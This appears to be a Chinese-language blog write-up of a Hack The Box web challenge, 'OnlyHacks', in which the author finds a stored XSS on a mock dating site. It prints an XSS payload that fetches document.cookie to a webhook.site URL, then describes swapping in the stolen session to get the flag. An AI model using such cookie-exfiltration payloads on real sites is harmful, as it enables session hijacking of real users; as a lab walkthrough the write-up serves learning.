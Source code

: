 ```yaml
---
description: 最近好無聊玩一下？
title: Hack The Box Challenge 2025/02/19
pubDate: 2025-02-19 15:20:54
tags:
  -  writeup
categories:
    - Daily
---
```


## OnlyHacks
一個超詭異的社交網站
![image](https://hackmd.io/_uploads/rJ8_Obm9yx.png)
就先來註冊一下
![image](https://hackmd.io/_uploads/SyOpO-X9yl.png)
真的感覺超詭異的，~~我是全部按讚拉~~

![image](https://hackmd.io/_uploads/S1cAYZQcyl.png)

沒想到可以直接alert出來？
`<script>alert(1)</script>`


那我就直接偷他cookie
```javascript
<script>
    fetch("https://webhook.site/5044eec5-2a49-4e50-82af-f91c57344da0?cookie=" + document.cookie);
</script>
```
![image](https://hackmd.io/_uploads/rkhp9b7cye.png)
cookie get!

直接把session換掉
![image](https://hackmd.io/_uploads/SkltiZQ9yl.png)
flag就出來了